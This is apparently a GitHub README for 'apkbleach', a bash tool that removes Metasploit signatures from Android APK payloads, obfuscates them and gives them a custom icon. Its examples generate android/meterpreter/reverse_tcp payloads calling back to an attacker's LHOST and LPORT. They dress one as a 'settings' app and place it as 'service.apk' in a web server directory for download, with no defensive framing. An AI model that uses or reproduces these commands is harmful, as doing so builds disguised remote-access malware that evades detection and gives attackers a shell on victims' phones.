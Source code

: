 # apkbleach
This BASH script will remove the obvious fingerprints of metasploit through out a given apk file. It also gives the option to inject a custom app icon

After you cd into the repo directory run the install script or manually move apkbleach to /usr/local/bin
   $ bash install.sh
   
Usage: 

         Usage: apkbleach -g <android/payload/to/use LHOST=ip-address-to-use LPORT=port-to-use> -i <path/to/image.png> -o  <path/to/outputname.apk>

options: 

      -g <android/payload/to/use LHOST=ip-address-to-use LPORT=port-to-use>
          Generates obfuscated payload with nops
  
      -i <path/to/image.png> [ use -i --list ] to list defaults
          Sets image as the icon of the file.apk
  
      -o  <path/to/outputname.apk>
          Sets the name of custom output file
  
      -x <path/to/apk>
          Uses pre generated metasploit payload to obfuscate
  
      -h  Help menu

Examples: 

         ./apkbleach -g android/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444

         ./apkbleach -x /root/msf.apk

         ./apkbleach -g android/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444 -i ICONS/settings.png 

         ./apkbleach -g android/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444 -i ICONS/settings.png -o /var/www/html/service.apk
